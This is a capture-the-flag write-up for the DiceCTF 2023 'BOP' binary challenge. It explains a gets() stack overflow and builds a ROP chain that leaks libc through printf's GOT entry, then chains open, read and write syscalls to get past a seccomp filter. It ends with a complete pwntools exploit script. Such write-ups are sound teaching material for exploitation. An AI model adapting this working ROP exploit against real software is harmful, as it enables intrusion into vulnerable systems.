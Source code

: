 ```yaml
---
title: "Dice '23 BOP"
date: 2023-02-11 17:31:30 -0400
categories: Pwn
---
```

# BOP
This is write-up for BOP.

The source code of main is as follows:
```
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  printf("Do you bop? ");
  return gets(v4);
}
```

The last line of main calls gets to receive inputs to a buffer and returns using gets' return value.

Running checksec gives:
```    
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
And we can verify that the binary uses seccomp tools:
```
# seccomp-tools dump ./bop                                                                                   [±PIE ●]
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 ```

## Attack Plan
We can control the return address and perform ORW (Open Read Write) using ROP.
I've done ORW from [pwnable.tw](https://pwnable.tw/challenge/#2) using shellcoding but it was my first time using ROP, but the logic remains the same. It's just a matter of syntax.
## Pre-requisite
To perform ROP, we need to leak the libc base.
The GOT does not import puts, so I'll use printf.
The ROP payload to leak GOT entry of printf is as follows:
```
payload = b"A"*40 # offset
payload += p64(ret)
payload += p64(ret)
payload += p64(rdi)             # 1st parameter
payload += p64(e.got['printf'])
payload += p64(rsi)             # 2nd parameter (two pops)
payload += p64(e.got['printf'])
payload += p64(e.got['printf'])
payload += p64(e.plt['printf']) # call printf_plt
payload += p64(ret)
payload += p64(main) # return to main
```
The first two rets are to align bytes. 0 or 1 ret doesn't work (idk why).
The pop_rsi gadget I found pops to two registers, so I included two printf_got entries after pop_rsi.

## ORW
Using the leaked libc base, we can find other useful gadgets like pop_rax, pop_rdx, and syscall.

note: *make sure to find the stable syscall instruction, like read+0x10.*

We can run ROP again but now invoking ORW.
To store the contents of the file read, I'll use bss+0x800 (no special reason).

The payload is as follows:
```
"""OPEN"""
payload = b"A"*40
payload += p64(rdi) + p64(bss+0x800)
payload += p64(e.plt["gets"])
payload += p64(rdi)+p64(bss+0x800)
payload += p64(rsi) + p64(0) + p64(0)
payload += p64(rdx) + p64(0) 
payload += p64(rax) + p64(2)
payload += p64(syscall)

"""READ"""
payload += p64(rdi)+p64(3)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(0) 
payload += p64(rdx)+p64(0xff) 
payload += p64(syscall)

"""WRITE"""
payload += p64(rdi)+p64(1)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(1) 
payload += p64(rdx)+p64(0xff)
payload += p64(syscall)
```

We follow the standard [x64 syscall convention](https://syscalls64.paolostivanin.com/) to set the parameters of each component of ORW.

* set rdi to bss to store user input
* call gets
After user sends an input, it will be stored in BSS, in this case it will be "./flag.txt".
* set rdi to bss again
* set rsi (two pops) and rdx to 0
* set rax to 2
* syscall

Similar procedures are performed for Open and Write syscalls.
note: *cross compare with x64 syscall chart!*

### End
Then I send the payload along with "./flag.txt" and receive the output to get the flag.

```
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

p=process('./bop',env={'LD_PRELOAD':'./libc-2.31.so'})
# p = remote("mc.ax", 30284)
libc=ELF("./libc-2.31.so")

ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)

e = ELF("./bop")
rdi = 0x4013d3
ret = 0x40101a
main = 0x4012fd
bss = 0x404080
rsi = 0x4013d1 # pop rsi; pop r15; ret

payload = b"A"*8
payload += b"/flag.txt\0"
payload += b"A"*22
payload += p64(ret)
payload += p64(ret)
payload += p64(rdi)
payload += p64(e.got['printf'])
payload += p64(rsi)
payload += p64(e.got['printf'])
payload += p64(e.got['printf'])
payload += p64(e.plt['printf'])
payload += p64(ret)
payload += p64(main)

sla(b"? ", payload)


leak = u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
libc.address = leak - 0x60770 - 0x46a0 + 0x3180
info(str(hex(libc.address)))

syscall = libc.sym['read']+0x10
rax = libc.address+0x036174
rdx = libc.address+0x142c92

payload = b"A"*40
payload += p64(rdi) + p64(bss+0x800)
payload += p64(e.plt["gets"])
payload += p64(rdi)+p64(bss+0x800)
payload += p64(rsi) + p64(0) + p64(0)
payload += p64(rdx) + p64(0) 
payload += p64(rax) + p64(2)
payload += p64(syscall)

payload += p64(rdi)+p64(3)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(0) 
payload += p64(rdx)+p64(0xff) 
payload += p64(syscall)

payload += p64(rdi)+p64(1)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(1) 
payload += p64(rdx)+p64(0xff)
payload += p64(syscall)

sla(b"? ", payload)
input() # press enter
sl(b"./flag.txt\0")

print(p.recv(1024))

p.interactive()
```
Thanks,
079
